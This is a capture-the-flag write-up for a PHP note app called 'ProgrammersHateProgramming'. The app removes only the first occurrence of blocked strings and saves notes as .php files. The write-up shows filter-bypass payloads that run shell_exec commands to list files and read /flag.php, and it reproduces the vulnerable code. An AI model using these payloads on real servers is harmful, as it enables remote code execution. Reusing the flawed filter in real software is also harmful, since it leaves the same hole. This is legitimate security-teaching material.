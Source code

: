 # ProgrammersHateProgramming

**Author:** AOx0 :: Alejandro

![](https://i.imgur.com/1MCf59f.png)

First I looked at the code to see what was going on:

```php
function str_replace_first($from, $to, $content)
{
    $from = '/'.preg_quote($from, '/').'/';

    return preg_replace($from, $to, $content, 1);
}
function generateRandomString($length = 15) {
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < $length; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}

if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
```



We can see that the only ''*protection*'' method is to use `str_replace_first` and remove every <?php, flag, or any of those words from the string we input to the website.

```php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    array_push($_SESSION["notes"], "$filename.php");
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
```



The thing is that it only removes the first match of the string. 

So:

- `"flag"`  ---> `""`
-  `"flag flag"` ---> `" flag"`



Let's test it:

![](https://i.imgur.com/GLxsbOF.png)

And if we open the Note the site created we get:

![](https://i.imgur.com/7c4QWKH.png)

Now lets try with `flag flag`

![](https://i.imgur.com/bdFrdZ9.png)

And we get:

![](https://i.imgur.com/mn8L0Aa.png)



## Exploit

So i just wrote a php to execute an `ls` and try to see if it works.

```php
<?php echo shell_exec("ls"); ?>
```

But with an extra of each forbidden word so the important ones do not get deleted, extra <php?, etc.

```php
flag <?php <?php echo shell_exec("ls"); ?>  ?>
```

![](https://i.imgur.com/8TAdNQQ.png)

![](https://i.imgur.com/MgWffh2.png)

Yep, we get the list of all notes that have been created. 

After that I explored the server until I found the flag at `/` in a file called `flag.php`. So I just executed it with php to get the output (I did saw a lot of people doing crazy things to get the flag lol)



```php
flag <?php <?php echo shell_exec("php /flag.php"); ?>  ?>
```

Notice the extra `flag`, `<?php` and `?>` 

![](https://i.imgur.com/l4pIh98.png)

![](https://i.imgur.com/HbG1EiB.png)